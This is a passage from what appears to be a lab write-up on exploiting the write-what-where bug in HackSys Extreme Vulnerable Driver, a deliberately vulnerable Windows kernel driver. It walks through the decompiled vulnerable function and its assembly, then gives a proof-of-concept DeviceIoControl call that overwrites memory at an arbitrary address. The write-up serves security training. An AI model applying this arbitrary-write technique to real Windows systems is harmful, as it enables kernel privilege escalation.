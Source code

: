 Here’s the actual vulnerable function:
```cpp
__int64 __fastcall TriggerArbitraryWrite(_WRITE_WHAT_WHERE *UserWriteWhatWhere)
{
  unsigned __int64 *What; // rbx
  unsigned __int64 *Where; // rdi

  ProbeForRead(UserWriteWhatWhere, 0x10ui64, 1u);
  What = UserWriteWhatWhere->What;
  Where = UserWriteWhatWhere->Where;
  DbgPrintEx(0x4Du, 3u, "[+] UserWriteWhatWhere: 0x%p\n", UserWriteWhatWhere);
  DbgPrintEx(0x4Du, 3u, "[+] WRITE_WHAT_WHERE Size: 0x%X\n", 16i64);
  DbgPrintEx(0x4Du, 3u, "[+] UserWriteWhatWhere->What: 0x%p\n", What);
  DbgPrintEx(0x4Du, 3u, "[+] UserWriteWhatWhere->Where: 0x%p\n", Where);
  DbgPrintEx(0x4Du, 3u, "[+] Triggering Arbitrary Write\n");
  *Where = *What;
  return 0i64;
}
```

And this is the line `*Where = *What;` that allows us to exploit the code.

In ASM:
```asm
...
PAGE:0000000140085F1A                 mov     rax, [rbx]
PAGE:0000000140085F1D                 mov     [rdi], rax
...
```

Now it’s time to figure out how to take advantage of this. Let’s write a small POC.

```cpp
...
	char* str = (char*)"CCCCCCCCCCCCC";
	char* str2 = (char*)"AAAAAAAAAAAAA";

	WRITE_WHAT_WHERE WhaWhe = { 0 };
	WhaWhe.Where = &str;
	WhaWhe.What = &str2;

	printf("\nstr: %s\n", str);
	printf("str2: %s\n", str2);

	ULONG lpBytesReturned = 0;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);

	printf("\nstr: %s\n", str);
	printf("str2: %s\n", str2);
...
```
The result:
![](imgs/blog/2SmepBypass/20250419200718.png)
As we can see, we can overwrite content at any address no matter if it is User mode or Kernel mode.
